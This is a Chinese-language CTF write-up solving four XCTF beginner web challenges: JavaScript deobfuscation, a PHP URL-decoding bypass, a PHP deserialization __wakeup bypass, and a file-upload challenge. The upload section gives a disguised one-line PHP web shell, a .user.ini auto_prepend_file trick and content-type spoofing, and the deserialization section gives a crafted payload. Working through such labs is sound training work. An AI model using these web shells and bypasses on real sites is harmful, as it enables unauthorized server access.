 ### simple_js

默认弹出窗口，先 f12，查看源代码，发现 js 代码如下

```html
<html>
  <head>
    <title>JS</title>
    <script type="text/javascript">
      function dechiffre(pass_enc) {
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab = pass_enc.split(",");
        var tab2 = pass.split(",");
        var i,
          j,
          k,
          l = 0,
          m,
          n,
          o,
          p = "";
        i = 0;
        j = tab.length;
        k = j + l + (n = 0);
        n = tab2.length;
        for (i = o = 0; i < (k = j = n); i++) {
          o = tab[i - l];
          p += String.fromCharCode((o = tab2[i]));
          if (i == 5) break;
        }
        for (i = o = 0; i < (k = j = n); i++) {
          o = tab[i - l];
          if (i > 5 && i < k - 1) p += String.fromCharCode((o = tab2[i]));
        }
        p += String.fromCharCode(tab2[17]);
        pass = p;
        return pass;
      }
      String["fromCharCode"](
        dechiffre(
          "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
        )
      );

      h = window.prompt("Enter password");
      alert(dechiffre(h));
    </script>
  </head>
</html>
```

分析得出，无论弹出的对话框输入密码正确与否都只会返回同一个字符串；

真正的密码就是这以下代码中的 16 进制加密数据

```js
String["fromCharCode"](
  dechiffre(
    "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
  )
);
```

<br>

同样的，直接在开发者工具的控制台内使用 String 函数对这段编码进行解码

之后编码转换，直接获取 flag

flag 为 `786OsErtk12`

> 注意提交是的格式！！！所以正确答案应该为 cyberspace{786OsErtk12}

![](../imgs/contest/xctf_noob/xn1.png)

<br>

### PHP2

> php 是给开发者看的源代码，phps 是为了直接在网页中查看 php 源码而设计的文件

通过 index.phps 获取网页 php 源代码

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

<br>

### unserialize3

目的：通过反序列化绕过魔法函数 wakeup

原理：  
当执行反序列化时会首先运行魔法函数 `__wakeup()`；我们需要绕过该魔法函数才能正确获取 flag  
仅需使序列化成员数大于实际成员数即可！

打开 phpstorm，写入以下代码，获取类 xctf 的序列化内容

```php
<?php
class xctf
{
    public $flag = '111';

    public function __wakeup()
    {
        exit('bad requests');
    }
}

$a=new xctf();
var_dump(serialize($a));
```

<br>

得到的序列化内容：  
`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

我们增加实际成员数，即把 1 改成 2，此时得到：  
`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

<br>

将该序列化内容作为负载写入 URL  
`xxx.xxx.xxx.xxx/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

即可绕过 wakeup 获取正确的 flag

<br>

### easyupload

题解：利用 .user.ini 配置文件挂载后门程序，使用蚁剑链接得到 flag

可以先制作一个 `.user.ini` 文件

```ini
GIF89a
auto_prepend_file=a.jpg
```

在制作一个带一句话木马的图片 `a.jpg`

```php
GIF89a
<?=eval($_POST['cmd']);?>
```

<br>

使用 burp 拦截每一次上传请求，把 content-type 全部改为 image/jpg，这样才可以绕过类型检测

完毕后中国蚁剑找到文件上传点，链接即可

<br>
